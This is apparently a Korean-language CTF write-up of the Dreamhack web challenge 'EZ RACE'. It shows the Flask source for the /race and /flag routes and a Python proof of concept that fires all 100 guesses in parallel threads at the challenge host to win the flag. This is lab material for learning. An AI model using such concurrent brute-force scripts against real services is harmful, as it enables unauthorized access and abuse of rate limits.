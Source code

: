 ```yaml
---
layout: post
title: "[DH]EZ RACE"
date: 2025-08-07 19:41 +0900
category: Write-Up
tag: [dreamhack, web]
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

requests와 theared 모듈을 사용한 병렬처리가 주요 포인트이다.

### **RECON**

문제는 매우 간단하다. Flask로 구성된 웹 서버의 파일(app.py)이 주어진다.

/race 경로에 1에서 100사이의 user 값을 쿼리로 입력하고, 운이 좋게 맞으면 플래그를 획득할 수 있는 상태가 된다.
그 후, /flag 경로에서 플래그를 가져가면 된다.

```py
@app.route('/race')
def race():
    global getflag, key

    user_input_str = request.args.get('user')
    userinput = int(user_input_str)

    if userinput == key:
        getflag = 1
        return "WOW"
    else:
        time.sleep(3)
        key = random.randint(1, 100)    # 1~100 사이의 값
        return "NOPE"

@app.route('/flag')
def flag():
    global getflag   
    if getflag == 1:
        getflag = 0
        return f"FLAG IS {FLAG}"        # 플래그 획득
    else:
        return "NOPE!!"
```

### **SOLUTION**

requests 모듈을 사용하여, 경로 `/race?user={RANDOM_VALUE}`에 get 요청을 보내주면 WOW 혹은 NOPE 응답을 받을 수 있다.

이 때, WOW 응답을 받은 상태에서 경로 `/flag`에 get 요청을 보내면 플래그를 획득 할 수 있다.

소스 코드에 3초룰을 지키지 않아도, 제한이 따로 없어서 필자는 그냥 300초를 기다린다는 마음으로 처음 시도에는 병렬처리를 하지 않고 풀었다.
![chim]

그래도 write-up을 쓸 때는 출제자의 의도에 맞게 threading까지 써서, 3초안에 해결되게 만들었다. 하핳ㅎ

### **POC**

```py
import requests
import threading

url = 'http://host8.dreamhack.games:14889'

def check(rint):
    res = requests.get(url+f"/race?user={rint}")
    if (res.text == "WOW"):
        re = requests.get(url+"/flag")
        print(re.text)

threads = []
for i in range(1, 101):     # 1~100 사이의 값
    t = threading.Thread(target=check, args=(i,))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```


[chall]: /assets/DreamHack/ezrace/challenge.png
[3rule]: /assets/DreamHack/ezrace/solution_3rule.png
[chim]: /assets/DreamHack/ezrace/solution_chim.png